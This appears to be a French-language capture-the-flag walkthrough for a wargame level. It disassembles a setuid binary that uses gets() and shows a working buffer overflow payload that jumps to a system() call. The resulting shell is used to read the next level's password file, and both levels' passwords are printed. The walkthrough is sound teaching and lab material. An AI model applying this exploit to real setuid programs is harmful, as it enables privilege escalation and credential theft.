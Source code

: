# Level1

> login:password -> *`level1:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`*
```
:~$ su level1
Password:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
---

```
:~$ pwd
/home/user/level1
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level1` :

```
:~$ ./level1
(input)

:~$ ./level1 test
(input)
```

Avec ou sans paramètre, le binaire attends un input et quitte juste après

```
:~$ gdb level1
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:  push   %ebp
   0x08048481 <+1>:  mov    %esp,%ebp
   0x08048483 <+3>:  and    $0xfffffff0,%esp
   0x08048486 <+6>:  sub    $0x50,%esp
   0x08048489 <+9>:  lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.

(gdb) quit
```

Le binaire appel une fonction `gets()` (+16), vulnerable a un `buffer overflow exploit` pour overwrite le retour de la fonction et enchainer avec notre code.

```
:~$ python -c 'print "a"*76' | ./level1
:~$ Illegal instruction (core dumped)
```

On a effectivement declencher un overflow pour exploiter la vulnerabilite, mais il s'agirait maintenant de reprendre le control.\
On peux utiliser `objdump -d` sur notre binaire pour en comprendre plus ses instructions

```
:~$ objdump -d ./level1
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00 
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret 
```

On trouve alors une fonction `run()` (endian: `08048444`) qui comprends un `fwrite()`, mais surtout un `system()` que l'on pourra exploiter.\
On va alors declencher notre overflow sur l'adresse `08048444` ("\x44\x84\x04\x08") et on l'envoie directement dans le binaire

```
:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1
:~$ Good... Wait what?
:~$ Segmentation fault (core dumped)

:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
:~$ Good... Wait what?
:~$ (input)

:~$ whoami
:~$ level2

:~$ cat /home/user/level2/.pass
:~$ 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
...

